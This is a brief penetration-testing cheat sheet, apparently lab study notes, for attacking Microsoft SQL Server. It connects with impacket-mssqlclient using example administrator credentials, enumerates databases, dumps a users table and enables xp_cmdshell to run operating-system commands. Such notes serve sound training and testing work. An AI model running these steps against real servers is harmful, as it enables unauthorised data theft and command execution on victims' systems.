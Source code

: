 Connect to MSSQL
```
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
Note: Use go after every commands if we check in server
    
## Commands
```
SELECT @@version;
SELECT name FROM sys.databases; (master,tempdb,model,andmsdbaredefault databases)
SELECT * FROM offsec.information_schema.tables; (dbname.schema.tables)
select * from offsec.dbo.users; (dbname.schema.tablename)
```    
## CODE EXECUTION
#### Enabling XP_CMDSHELL
```
EXECUTE sp_configure 'show advanced options',1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell',1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```